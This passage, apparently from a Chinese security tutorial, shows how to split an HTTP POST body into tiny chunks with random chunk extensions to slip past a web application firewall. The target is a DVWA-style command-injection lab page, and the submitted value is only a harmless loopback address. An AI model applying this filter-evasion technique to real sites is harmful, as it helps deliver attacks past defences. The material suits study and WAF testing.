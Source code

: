 ```
3
=12
1
7
3
.0.
3
0.1
1
&
1
S
2
ub
3
mit
3
=Su
2
bm
2
it
0


```

绕WAF期望的分块传输是：

```
POST /vulnerabilities/exec/ HTTP/1.1
Host: xxcdd.for.test.com
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; The World)
Accept-Language: zh-cn,en-us;q=0.7,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Cookie: security=low; PHPSESSID=f49c32abdce4380305503cde9e522e67
Content-Length: 269
Transfer-Encoding: chunked

3;9HMbo4HFtRCJQwAJW57tz0
ip=
3;70ixfv
127
2;ouCHr3
.0
2;ZXjKnAt0
.0
2;FcpKzNTK
.1
2;JWf1je
&S
2;aiV0XrBKQFLb
ub
2;S61NU
mi
1;MHr680eEyUqR6
t
1;OWOo9
=
1;AxsgGW9aizzJd5IRtJHGuRHPH
S
```